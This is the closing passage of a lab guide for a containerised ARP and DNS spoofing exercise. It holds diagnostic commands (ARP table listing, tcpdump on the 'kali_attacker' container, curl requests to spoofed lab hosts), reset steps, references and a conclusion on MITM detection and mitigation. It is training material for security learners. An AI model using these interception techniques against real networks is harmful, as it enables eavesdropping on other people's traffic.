docker-compose exec http_requester curl -H "Host: goodserver.com" http://192.168.1.100

# Usar el menú para diagnosticar problemas
docker-compose exec kali_attacker /scripts/lab1_menu.sh
```

### Diagnostic Commands

```bash
# Check network connectivity
docker network inspect $(docker-compose ps -q | head -1 | xargs docker inspect --format='{{range .NetworkSettings.Networks}}{{.NetworkID}}{{end}}')

# View ARP table of all containers
for container in $(docker-compose ps -q); do
    echo "=== $(docker inspect $container --format='{{.Name}}') ==="
    docker exec $container arp -a 2>/dev/null || echo "arp not available"
done

# Monitor traffic in real time
docker-compose exec kali_attacker tcpdump -i eth0 -n

# Check web services
curl -H "Host: goodserver.com" http://192.168.1.10
curl -H "Host: goodserver.com" http://192.168.1.100
```

### Reset Environment

```bash
# Stop all containers
docker-compose down

# Clean networks and volumes
docker-compose down -v --remove-orphans

# Rebuild everything from scratch
docker-compose build --no-cache
docker-compose up -d
```

## 📚 References and Additional Reading

!!! info "Technical Documentation"
    - [RFC 826 - Address Resolution Protocol](https://tools.ietf.org/html/rfc826)
    - [RFC 1035 - Domain Names Implementation](https://tools.ietf.org/html/rfc1035)
    - [Ettercap Documentation](https://ettercap.github.io/ettercap/)
    - [Wireshark Documentation](https://www.wireshark.org/docs/)

!!! tip "Additional Tools to Explore"
    - **Wireshark**: Graphical network traffic analysis
    - **Scapy**: Python library for packet manipulation
    - **Netfilterqueue**: Intercept and modify packets in Linux
    - **Responder**: Tool for LLMNR, NBT-NS and MDNS poisoning

!!! book "Recommended Reading"
    - "The Web Application Hacker's Handbook" - Chapters on MITM
    - "Network Security Assessment" - Reconnaissance techniques
    - "Metasploit: The Penetration Tester's Guide" - Network attacks

---

!!! success "Laboratory Conclusion"
    This laboratory demonstrates how ARP and DNS spoofing attacks can be executed in containerized environments, providing practical understanding of these offensive security techniques in a controlled and secure environment. 
    
    **Key Learning Points:**
    
    - ✅ Docker network configuration for pentesting
    - ✅ Classic tools (ettercap) vs modern alternatives
    - ✅ MITM attack detection and mitigation techniques
    - ✅ Forensic analysis of intercepted network traffic
    - ✅ Practical implementation of network security concepts